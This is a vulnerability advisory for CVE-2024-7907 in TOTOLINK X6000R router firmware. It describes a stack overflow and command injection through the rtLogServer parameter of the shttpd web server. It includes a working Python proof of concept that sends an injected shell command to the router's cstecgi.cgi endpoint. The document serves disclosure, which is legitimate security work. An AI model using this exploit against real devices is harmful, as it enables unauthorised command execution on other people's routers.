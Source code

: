 ## Overview

- Manufacturer's website: https://www.totolink.net/
- Firmware download website:
  - https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html

## Affected version

totolink X6000R V9.4.0cu.852_20230719

## Vulnerability details

A stack overflow and command injection vulnerability exists in the `FUN_00415aa4` function of program `/usr/sbin/shttpd` in X6000R V9.4.0cu.852_20230719. The function gets the `rtLogServer` parameter and some other parameters from the user request. When `rtLogEnabled` is 1, `rtLogServer` is concatenated to `acStack_108`, a process that may cause stack overflow. Subsequently `acStack_108` is passed to `CsteSystem`, a function that eventually executes execv, causing command injection.

![image1](image/1.png)

## PoC

```python
import requests
url = "http://192.168.244.142/cgi-bin/cstecgi.cgi"

data = {
    "topicurl":"setSyslogCfg",
    "enable":"0",
    "rtLogEnabled":"1",
    "rtLogServer":";id > /1.txt; ls "
}

headers = {
    "Origin": "http://192.168.244.142",
    "Referer": "http://192.168.244.142/login.html"
}

response = requests.post(url, data=data, headers=headers)
print(response.text)
print(response)
```

## CVE

CVE-2024-7907
